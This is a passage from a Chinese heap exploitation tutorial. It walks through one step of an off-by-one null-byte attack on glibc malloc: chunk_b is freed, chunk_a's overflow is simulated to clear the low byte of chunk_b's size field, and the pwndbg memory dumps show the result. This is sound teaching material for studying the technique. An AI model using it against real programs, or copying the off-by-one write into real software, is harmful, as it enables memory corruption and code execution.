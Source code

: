 
释放 chunk_b 

```c
free(b);
```

unsortedbin中：

```
pwndbg> unsortedbin
unsortedbin
all: 0x603110 —▸ 0x7ffff7dd4b58 (main_arena+88) ◂— 0x603110
```

此时内存：

```
pwndbg> x/134gx 0x603000
0x603000:       0x0000000000000000      0x0000000000000111
0x603010:       0x0000000000000000      0x0000000000000000 <-- chunk_a
0x603020:       0x0000000000000000      0x0000000000000000
······
0x6030f0:       0x0000000000000000      0x0000000000000000
0x603100:       0x0000000000000000      0x0000000000000000
0x603110:       0x0000000000000000      0x0000000000000211 <-- b.size
0x603120:       0x00007ffff7dd4b58      0x00007ffff7dd4b58 <-- free(chunk_b)
0x603130:       0x0000000000000000      0x0000000000000000
······
0x603300:       0x0000000000000000      0x0000000000000000
0x603310:       0x0000000000000200      0x0000000000000000 
0x603320:       0x0000000000000210      0x0000000000000110
0x603330:       0x0000000000000000      0x0000000000000000 <-- chunk_c
0x603340:       0x0000000000000000      0x0000000000000000
······
0x603410:       0x0000000000000000      0x0000000000000000
0x603420:       0x0000000000000000      0x0000000000000000
0x603430:       0x0000000000000000      0x0000000000000111
```

通过 chunk_a 中存在的 off-by-one 漏洞，我们可以将 chunk_b 的 size 部分的低八位覆盖，比如这里将 chunk_b 的 size 部分的低八位覆盖为 0 

```c
a[real_a_size] = 0;   //此处是模拟chunk_a的off-by-one过程
```

此时内存

```
pwndbg> x/134gx 0x603000
0x603000:       0x0000000000000000      0x0000000000000111
0x603010:       0x0000000000000000      0x0000000000000000 <-- chunk_a
0x603020:       0x0000000000000000      0x0000000000000000
······
0x6030f0:       0x0000000000000000      0x0000000000000000
0x603100:       0x0000000000000000      0x0000000000000000
0x603110:       0x0000000000000000      0x0000000000000200 <-- b.size
0x603120:       0x00007ffff7dd4b58      0x00007ffff7dd4b58 <-- free(chunk_b)
0x603130:       0x0000000000000000      0x0000000000000000
······
0x603300:       0x0000000000000000      0x0000000000000000
0x603310:       0x0000000000000200      0x0000000000000000 
0x603320:       0x0000000000000210      0x0000000000000110
0x603330:       0x0000000000000000      0x0000000000000000 <-- chunk_c
0x603340:       0x0000000000000000      0x0000000000000000
······
0x603410:       0x0000000000000000      0x0000000000000000
0x603420:       0x0000000000000000      0x0000000000000000
0x603430:       0x0000000000000000      0x0000000000000111
```